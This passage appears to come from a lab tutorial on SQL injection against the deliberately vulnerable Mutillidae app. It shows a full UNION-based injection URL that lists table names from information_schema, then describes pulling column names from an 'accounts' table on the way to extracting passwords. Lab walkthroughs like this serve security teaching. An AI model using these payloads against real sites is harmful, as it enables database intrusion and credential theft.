 
### Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

### http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
![alt text](Images/24.png)
### The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

### When the attacker knows table names, he needs to discover what the column names are to extract data.

### In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

### Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

### Here we are trying to extract column names from the “accounts” table.